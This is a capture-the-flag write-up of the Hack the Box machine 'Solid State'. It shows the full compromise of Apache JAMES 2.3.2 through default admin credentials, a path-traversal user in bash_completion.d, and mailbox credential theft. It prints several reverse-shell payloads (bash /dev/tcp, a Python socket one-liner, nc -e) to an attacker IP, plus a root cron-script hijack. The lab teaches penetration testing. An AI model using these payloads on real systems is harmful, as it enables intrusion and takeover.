

# Solid State

This is the writeup for the machine Solid State from Hack the Box.

## Information Gathering

First we start running a full port scan on the host.

```bash
th3g3ntl3m4n at th3g3ntl3m4n in ~/htb/oscp/solidstate
$ sudo nmap -v -sS -Pn -p- 10.10.10.51 --top-ports=6000 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 19:39 -04
Initiating Parallel DNS resolution of 1 host. at 19:39
Completed Parallel DNS resolution of 1 host. at 19:39, 0.02s elapsed
Initiating SYN Stealth Scan at 19:39
Scanning 10.10.10.51 [6000 ports]
Discovered open port 80/tcp on 10.10.10.51
Discovered open port 25/tcp on 10.10.10.51
Discovered open port 22/tcp on 10.10.10.51
Discovered open port 110/tcp on 10.10.10.51
Discovered open port 119/tcp on 10.10.10.51
Discovered open port 4555/tcp on 10.10.10.51
Completed SYN Stealth Scan at 19:39, 6.46s elapsed (6000 total ports)
Nmap scan report for 10.10.10.51
Host is up (0.16s latency).
Not shown: 5994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
119/tcp  open  nntp
4555/tcp open  rsip
```

Next, we run a port scan only on the open ports found.

```bash
th3g3ntl3m4n at th3g3ntl3m4n in ~/htb/oscp/solidstate
$ sudo nmap -vv -A -Pn -p 22,25,80,110,119,4555 -oA nmap/solidstate 10.10.10.51
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 19:42 -04
...
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   256 78b83af660190691f553921d3f48ed53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBISyhm1hXZNQl3cslogs5LKqgWEozfjs3S3aPy4k3riFb6UYu6Q1QsxIEOGBSPAWEkevVz1msTrRRyvHPiUQ+eE=
|   256 e445e9ed074d7369435a12709dc4af76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKbFbK3MJqjMh9oEw/2OVe0isA7e3ruHz5fhUP4cVgY
25/tcp   open  smtp    syn-ack ttl 63 JAMES smtpd 2.3.2
|_smtp-commands: Couldn't establish connection on port 25
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3    syn-ack ttl 63 JAMES pop3d 2.3.2
119/tcp  open  nntp    syn-ack ttl 63 JAMES nntpd (posting ok)
4555/tcp open  rsip?   syn-ack ttl 63
| fingerprint-strings:
|   GenericLines:
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.93%I=7%D=2/22%Time=63F6A862%P=x86_64-apple-darwin22.1.
SF:0%r(GenericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\
SF:.2\nPlease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\n
SF:Password:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
```

Accessing the webpage running on port 80 we got the following.



## Enumeration

We ran a brute-force directory on the webserver in order to find some hidden directories/files.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ gobuster dir -e -u http://10.10.10.51/ -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -t 40 -x txt -o gobuster/solidstate
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.51/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2023/02/23 09:09:51 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.10.51/images               (Status: 301) [Size: 311] [--> http://10.10.10.51/images/]
http://10.10.10.51/assets               (Status: 301) [Size: 311] [--> http://10.10.10.51/assets/]
http://10.10.10.51/README.txt           (Status: 200) [Size: 963]                                 
http://10.10.10.51/server-status        (Status: 403) [Size: 299]                                 
http://10.10.10.51/LICENSE.txt          (Status: 200) [Size: 17128]
```

We didn’t find anything useful.

Enumerating the SMTP service on port 25, we could connect and grab the banner for the SMTP server but we couldn’t interact with the service anonymously.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
VERFY
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Thu, 23 Feb 2023 08:21:29 -0500 (EST)
500 5.5.1 Command VERFY unrecognized.
HELLO
500 5.5.1 Command HELLO unrecognized.
HELP
502 5.3.3 HELP is not supported
?
500 5.5.1 Command ? unrecognized.
```

The same behavior shows when we connect on the port 110.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ nc -vn 10.10.10.51 110
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 10.10.10.51:110.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready
```

When we connected on port 4555 we were able to log into the James Remote Administration Tool as root.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
```

Running the `listusers` command we were able to enumerate the following users.

```bash
listusers
Existing accounts 6
user: james
user: ../../../../../../../../etc/bash_completion.d
user: thomas
user: john
user: mindy
user: mailadmin
```

## Exploitation

### JAMES Administration Tool 2.3.2

Searching for some exploit for this version we’ve got the link [https://github.com/am0nsec/exploit/blob/master/linux/http/ApacheJamesServer-2.3.2/apache_james_2-3-2.py](https://github.com/am0nsec/exploit/blob/master/linux/http/ApacheJamesServer-2.3.2/apache_james_2-3-2.py). Manually, we add an user 

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d password
User ../../../../../../../../etc/bash_completion.d added
quit
Bye
Connection closed by foreign host.
```

Then we send an email to e-mail address that we found on the homepage.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Fri, 24 Feb 2023 08:59:04 -0500 (EST)
EHLO test
250-solidstate Hello solid-state-security.com (10.10.14.14 [10.10.14.14])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'@jpfdevs.com>
250 2.1.0 Sender <'@jpfdevs.com> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
From: jpfdevs@jpfdevs.com
'
/bin/bash -i >& /dev/tcp/10.10.14.14/9001 0>&1
.
250 2.6.0 Message received
QUIT
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```

Now, we logged back as root on James Administration Tool and change the password of one of the users.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate/exploitation/JamesServer]
└──╼ [★]$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
setpassword mindy senha12345
Password for mindy reset
```

We log into POP3 server using the new credentials for user `mindy`.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate/exploitation/JamesServer]
└──╼ [★]$ telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS senha12345
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
```

We check the two messages that user mindy has.

```bash
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.

```

In the second message we found the e-mail containing her initial credential for SSH.

```bash
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James

.
```

We successful log into SSH service using mindy credentials.

```bash
─[us-free-3]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate/exploitation/mindy]                                                                                          [148/148]
└──╼ [★]$ ssh mindy@10.10.10.51                                                                                                                                                               
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.                                                                                                                    
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.                                                                                                                  
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                                                                                      
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.                                                                                                                  
mindy@10.10.10.51's password:                                                                                                                                                                 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686                                                                                                              
                                                                                                                                                                                              
The programs included with the Debian GNU/Linux system are free software;                                                                                                                     
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                                                                                                               
                                                                                                                                                                                              
Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
...
...
mindy@solidstate:~$ ls -la
total 28
drwxr-x--- 4 mindy mindy 4096 Apr 26  2021 .
drwxr-xr-x 4 root  root  4096 Apr 26  2021 ..
lrwxrwxrwx 1 root  root     9 Nov 18  2020 .bash_history -> /dev/null
-rw-r--r-- 1 root  root     0 Aug 22  2017 .bash_logout
-rw-r--r-- 1 root  root   338 Aug 22  2017 .bash_profile
-rw-r--r-- 1 root  root  1001 Aug 22  2017 .bashrc
-rw------- 1 root  root     0 Aug 22  2017 .rhosts
-rw------- 1 root  root     0 Aug 22  2017 .shosts
drw------- 2 root  root  4096 Apr 26  2021 .ssh
drwxr-x--- 2 mindy mindy 4096 Apr 26  2021 bin
-rw------- 1 mindy mindy   33 Feb 24 08:30 user.txt
```

Backing to James exploitation, we sent our payload in python `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])’`  and log into SSH service as mindy. We were able to get a stable reverse shell and bypassed the restricted shell when we logged on mindy SSH.

```jsx
─[us-vip-21]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate]
└──╼ [★]$ sudo python3 -m pwncat -lp 443
[11:12:23] Welcome to pwncat 🐈!                                                                                                               __main__.py:164
[11:12:51] received connection from 10.10.10.51:41536                                                                                               bind.py:84
[11:12:53] 0.0.0.0:443: normalizing shell path                                                                                                  manager.py:957
10.10.10.51:41536 • calculating host hash • retrieving hostname (hostname -f)
[11:13:05] 10.10.10.51:41536: registered new host w/ db                                                                                         manager.py:957
(local) pwncat$
(local) pwncat$ back
$(command printf "(remote) $(whoami)@$(hostname):$PWD$ ")id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
```

## Privilege Escalation

Searching for some way in order to escalate our privileges, we found the following script in `/tmp` directory.

```jsx
$(command printf "(remote) $(whoami)@$(hostname):$PWD$ ")ls -la
total 16
drwxr-xr-x  3 root root 4096 Aug 22  2017 .
drwxr-xr-x 22 root root 4096 May 27  2022 ..
drwxr-xr-x 11 root root 4096 Apr 26  2021 james-2.3.2
-rwxrwxrwx  1 root root   81 Feb 25 10:33 tmp.py
```

Uploading the pspy tool on the host, we running it and check that [tmp.py](http://tmp.py) script is running as root.


We change the script and write down our payload as the following.

```jsx
#!/usr/bin/python

import os

os.system('/bin/nc -e /bin/bash 10.10.14.14 9001')
```

Backing to our listener we got the reverse shell as root.

```jsx
─[us-vip-21]─[10.10.14.14]─[th3g3ntl3m4n@parrot]─[~/htb/oscp/solidstate/www]
└──╼ [★]$ python3 -m pwncat -lp 9001
[12:06:24] Welcome to pwncat 🐈!                               __main__.py:164
[12:08:59] received connection from 10.10.10.51:52600               bind.py:84
[12:09:02] 0.0.0.0:9001: normalizing shell path                 manager.py:957
[12:09:14] 10.10.10.51:52600: registered new host w/ db         manager.py:957
(local) pwncat$ back
(remote) root@solidstate:/root# id
uid=0(root) gid=0(root) groups=0(root)
```